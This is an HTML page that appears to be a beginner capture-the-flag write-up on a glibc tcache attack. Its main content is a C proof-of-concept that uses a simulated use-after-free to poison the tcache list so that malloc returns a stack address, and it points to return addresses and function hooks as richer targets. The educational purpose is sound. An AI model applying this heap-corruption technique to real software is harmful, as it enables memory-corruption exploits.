 
<!DOCTYPE html>
<html>

<body>
    <h1>tcache attack explanation- leaningctf</h1>

    <h2>Challenge Description</h2>
    <p> this is a easy challenge for leaning sample binary exploitation with tcache attack wrap final maloc in flag{}
 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        for see how tcache attack working see this code and run it and see final value for get flag
<pre>
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    puts("So this is a quick demo of a tcache attack.");
    puts("The tcache is a bin that stores recently freed chunks (max 7 per idx by default).");
    puts("The tcache bin consists of a linked list, where one chunk points to the next chunk.");
    puts("This attack consists of using a bug to overwrite a pointer in the linked list to an address we want to allocate, then allocating it when it's that chunks turn to be allocated.");
    puts("Also the tcache was introduced in glibc version 2.26, so you won't be able to do this attack in libc versions before that.");
    puts("\n");

    printf("So let's start off by allocated two chunks, and let's initialize a stack integer.\n");

    unsigned long int *ptr0, *ptr1;
    int target;

    ptr0 = malloc(0x10);
    ptr1 = malloc(0x10);
    target = 0xdead;

    printf("ptr0: %p\n", ptr0);
    printf("ptr1: %p\n", ptr1);
    printf("int:  %p\n\n", &target);

    printf("Our objective here is to get malloc to return a pointer to the stack variable. Here that doesn't serve as much purpose (this is more of a proof of concept). However in a lot of different situations we can write to a chunk that is allocated.\n");
    printf("In addition to that, instead of allocating a chunk to a stack integer, we can allocate a chunk to something more interesting (like the saved return address or the hook to a function).\n");
    printf("So we will continue by freeing the two heap chunks, which will store them in the tcache.\n\n");

    free(ptr0);
    free(ptr1);

    printf("At this point, the two chunks we allocated using malloc are in the tcache. We can also see that there is a linked list which is used to keep track of which chunk is next in the tcache.\n\n");

    printf("Next pointer for ptr1: %p\n\n", (unsigned long int *)*ptr1);

    printf("As you can see, it points to the first chunk we allocated. This is chunks in the tcache are allocated in the reverse order in which they are inserted into it (think LIFO).\n");
    printf("So if we were to overwrite this pointer with a Use After Free bug (I'm pretending I have a UAF to ptr1 here), we can control the chunk which will be allocated from the tcache after ptr1.\n");
    printf("Let's write the address of the target stack integer over the next pointer.\n\n");

    *ptr1 = (unsigned long int)&target;
    printf("Next pointer for ptr1: %p\n\n", (unsigned long int *)*ptr1);

    printf("Now we will allocate a chunk. This should return the ptr1 chunk, and place the address of our target stack variable at the top of the tcache.\n\n");

    printf("Malloc Allocated: %p\n\n", malloc(0x10));

    printf("Now that the address of our stack integer is at the top of the tcache, the next chunk we allocate will be the target integer.\n\n");

    printf("Malloc Allocated: %p\n\n", malloc(0x10));

    printf("Just like that, we got malloc to allocate a chunk to the target stack variable. In practice we would try and allocate a chunk to something much more interesting (but this is more of a proof of concept).\n");
}
</pre>
       
    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">flag{0x7ffe00b8da64}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for tcache attack</p>
</body>
</html>

